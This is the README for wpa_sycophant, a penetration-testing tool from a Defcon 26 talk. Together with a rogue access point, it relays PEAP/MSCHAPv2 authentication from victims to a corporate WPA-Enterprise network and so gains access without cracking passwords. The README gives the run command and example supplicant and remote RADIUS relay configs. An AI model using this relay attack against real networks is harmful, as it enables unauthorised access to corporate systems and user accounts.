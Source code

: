 

# WPA_Sycophant 

[![Build Status](https://travis-ci.org/sensepost/wpa_sycophant.svg?branch=master)](https://travis-ci.org/sensepost/wpa_sycophant)

A tool to relay phase 2 authentication attempts to access corporate wireless without cracking the password. 

This was released as part of a [Defcon 26 talk](https://www.youtube.com/watch?v=eYsGyvGxlpI) and is a component in the MSCHAP relay attack, the other being [Hostapd-Mana](https://github.com/sensepost/hostapd-mana/) with the [enable_sycophant](https://github.com/sensepost/hostapd-mana/wiki/EAP-Relay-with-Sycophant) flag. 

A hub of wireless hacking information is at https://w1f1.net/ where links to other tools may be found. 


## Current support

 - Basic PEAP using MSCHAPv2


## How-To

To use this technique it is required that you run a rogue access point so that a legitimate user will connect to you so that you may relay the authentication attempt to Sycophant. 

To do this with [hostapd-mana](https://github.com/sensepost/hostapd-mana) you add a flag `sycophant_enable` Mana will write down the first part of the challenge response once a user connects. This is picked up by Sycophant to initiate the handshake against the target WiFi. 


Running wpa_sycophant may be done using the script `wpa_sycophant.sh` and the current supported commands are: 

   - `-c` to give it a config file, I suggest modifying the provided example.
   - `-i` to provide the interface to use. 

an example command would be:
    
    sudo ./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlp0s20f0u6


## Example Config

```
network={
  ssid="TestingEAP"
  # The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  # Do not modify
  identity=""
  anonymous_identity=""
  password=""
  # This initialises the variables for me.
  # -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  # Dont want to connect back to ourselves,
  # so add your rogue BSSID here.
  bssid_blacklist=00:14:22:01:23:45
}
```


## Dont Relay to yourself

Since you will be running a rogue AP potentialy near by your supplicant there is the possiblity that you will try relay to yourself. To stop this check the MAC/BSSID of your access point and add that to the `bssid_blacklist` of your config. 



## Remote Relay

If you would like to separate the AP and Sycophant so that they are running on separate hosts or you wish to use Enterprise grade equipment. 

This may be done by running MANA in RADIUS only mode. This will create a local RADIUS server that will relay the authentication to the local Sycophant. This allows you to setup your rogue to use that remote RADIUS server and relay credentials over the Internet or other networks.

A example RADIUS server config for MANA with Sycophant enabled is below:

```
interface=<Ethernet Interface>
driver=wired
# If you would like to run on loopback:
#driver=none 

eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=rogue-ca.pem
server_cert=radius.pem
private_key=radius.key
private_key_passwd=

radius_server_clients=hostapd.radius_clients
# Contents of hostapd.radius_clients:
# 0.0.0.0/0 P@ssw0rd

radius_server_auth_port=1812

# -1 = log all messages
logger_syslog=-1
logger_stdout=-1

# 2 = informational messages
logger_syslog_level=1
logger_stdout_level=1

sycophant_enable=1
```

You may then use this remote RADIUS server with any AP that supports RADIUS authentication. 
